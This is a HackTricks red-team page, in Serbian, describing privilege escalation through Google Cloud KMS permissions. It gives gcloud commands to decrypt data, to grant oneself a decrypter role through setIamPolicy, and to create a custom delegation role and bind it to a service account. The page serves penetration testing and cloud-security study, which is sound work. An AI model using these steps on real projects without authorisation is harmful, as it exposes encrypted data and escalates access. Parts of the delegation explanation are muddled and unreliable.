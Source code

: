 # GCP - KMS Privesc

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## KMS

Informacije o KMS-u:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Imajte na umu da u KMS-u **dozvole** nisu samo **nasleđene** od Organizacija, Foldera i Projekata, već i od **Keyring-ova**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Možete koristiti ovu dozvolu da **dekriptujete informacije sa ključem** nad kojim imate ovu dozvolu.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Napadač sa ovlašćenjem može **dodeliti sebi ovlašćenja** za upotrebu ključa za dešifrovanje informacija.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Evo konceptualne razrade kako ova delegacija funkcioniše:

1. **Servisni nalog A** ima direktni pristup za dešifrovanje koristeći određeni ključ u KMS-u.
2. **Servisni nalog B** je dobio dozvolu `useToDecryptViaDelegation`. Ovo mu omogućava da zahteva od KMS-a da dešifruje podatke u ime Servisnog naloga A.

Korišćenje ove **dozvole je implicitno u načinu na koji KMS proverava dozvole** prilikom zahteva za dešifrovanje.

Kada napravite standardni zahtev za dešifrovanje koristeći Google Cloud KMS API (u Pythonu ili nekom drugom jeziku), servis **proverava da li servisni nalog koji je napravio zahtev ima potrebne dozvole**. Ako zahtev napravi servisni nalog sa dozvolom **`useToDecryptViaDelegation`**, KMS proverava da li je ovom **nalogu dozvoljeno da zahteva dešifrovanje u ime entiteta koji je vlasnik ključa**.

#### Priprema za delegaciju

1. **Definišite prilagođenu ulogu**: Kreirajte YAML fajl (npr. `custom_role.yaml`) koji definiše prilagođenu ulogu. Ovaj fajl treba da uključuje dozvolu `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`. Evo primera kako bi ovaj fajl mogao izgledati:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Kreiranje prilagođene uloge pomoću gcloud CLI-a**: Koristite sledeću komandu za kreiranje prilagođene uloge u vašem Google Cloud projektu:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Zamenite `[YOUR_PROJECT_ID]` sa ID-em vašeg Google Cloud projekta.

3. **Dodelite prilagođenu ulogu servisnom nalogu**: Dodelite prilagođenu ulogu servisnom nalogu koji će koristiti ovo ovlašćenje. Koristite sledeću komandu:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Zamenite `[YOUR_PROJECT_ID]` i `[SERVICE_ACCOUNT_EMAIL]` sa ID-jem vašeg projekta i emailom servisnog naloga, redom.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** me na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

